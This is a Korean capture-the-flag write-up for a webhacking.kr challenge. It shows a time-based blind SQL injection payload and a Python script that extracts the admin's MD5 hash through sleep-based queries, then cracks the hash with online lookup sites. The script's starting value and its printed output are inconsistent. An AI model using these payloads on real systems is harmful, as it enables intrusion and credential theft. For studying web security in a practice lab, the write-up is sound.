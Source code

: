 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-14-26-11.png)


# **Write-Up**

username에 ' or sleep(5) -- 를 넣어보면 SQLi가 되는 것을 확인할 수 있다.

![](images/2022-01-03-14-27-32.png)

join버튼을 누르고 username에 guest를 password에 guest를 넣어서 가입해보자.

![](images/2022-01-03-14-27-37.png)

그 이후 로그인을 하면 password hash 값을 출력한다.

![](images/2022-01-03-14-27-41.png)

해당 hash 값을 crack해보면 hash algorithm은 MD5이고 원문은 guestapple로 나온다. 즉, apple이라는 salt값을 확인 할 수 있다.

> [CrackStation](https://crackstation.net/)

![](images/2022-01-03-14-28-07.png)

그렇다면 DB에 저장되어 있는 password는 32글자로 고정이고, id는 admin이여야 하니 길이같은 것을 알필요는 없다.

다음과 같은 Python script로 admin의 password hash값을 알아내자.

```python
import urllib.request
import string
import time

SESSION_ID  = '7qhjh6nrlvcmheuia7h71vcgqe'
CHALLENGE   = 'https://webhacking.kr/challenge/bonus-2/index.php'

url             = CHALLENGE
header          = {'Cookie':'PHPSESSID='+SESSION_ID}
password_len    = 32
password        = '6c7ca386a903921d7fa230ffa0ffc153'
for i in range(1, password_len + 1):
    for c in string.printable.strip():
        id      = '\' or IF(SUBSTR(pw, {}, 1)=\'{}\' and id=\'admin\', sleep(2), sleep(0)) -- '.format(i, c)
        data    = urllib.parse.urlencode({'uuid':id, 'pw':'123'}).encode()
        request = urllib.request.Request(url, headers=header, data=data)
        s_time  = time.time()
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        e_time  = time.time()
        delay   = round(e_time - s_time)
        if delay >= 2:
            password  += c
            break
print('password : {}'.format(password))

[Output]
password : 6c9ca386a903921d7fa230ffa0ffc153
```

CrackStation에서는 crack을 하지 못해서 다른 사이트에서 crack을 하였다.

> [MD5 crack](https://www.md5online.org/md5-decrypt.html)

![](images/2022-01-03-14-28-44.png)

웹 기반 Hash Crack 사이트들에서 돌려본 결과이다.

|사이트 주소|결과|
|:---:|:---:|
|https://crackstation.net/|X|
|https://md5decrypt.net/en/|X|
|https://www.md5online.org/md5-decrypt.html|O|
|https://hashes.com/en/decrypt/hash|O|
|https://www.cmd5.org/|X|

찾아낸 password인 wow를 입력하여 점수를 획득하자.

![](images/2022-01-03-14-29-36.png)